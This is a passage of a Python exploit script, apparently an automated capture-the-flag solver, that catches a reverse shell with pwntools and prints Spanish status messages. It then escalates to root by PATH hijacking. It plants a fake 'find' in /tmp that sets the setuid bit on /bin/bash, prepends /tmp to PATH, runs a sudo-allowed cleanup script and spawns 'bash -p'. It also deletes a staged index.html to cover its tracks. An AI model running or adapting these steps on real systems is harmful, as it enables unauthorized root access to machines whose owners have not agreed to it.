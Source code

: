 ```python
			except Exception as e:
				log.error(str(e))

			shell = listen(lport, timeout=20).wait_for_connection()

			if shell.sock is None:
				p1.failure("Conexión fallida")
				sys.exit(1)

			else:
				p1.status("Shell obtenido como wizard")
				os.remove("index.html")
				sleep(2)
				p1.status("Pivotando a root")
				sleep(2)
				shell.sendline(b"echo 'chmod u+s /bin/bash' > /tmp/find")
				shell.sendline(b"chmod +x /tmp/find")
				shell.sendline(b"export PATH=/tmp:$PATH")
				shell.sendline(b"sudo PATH=$PATH /opt/cleanup.sh")
				shell.sendline(b"bash -p")
				sleep(2)
				shell.interactive()

		except Exception as e:
			log.error(str(e))
```


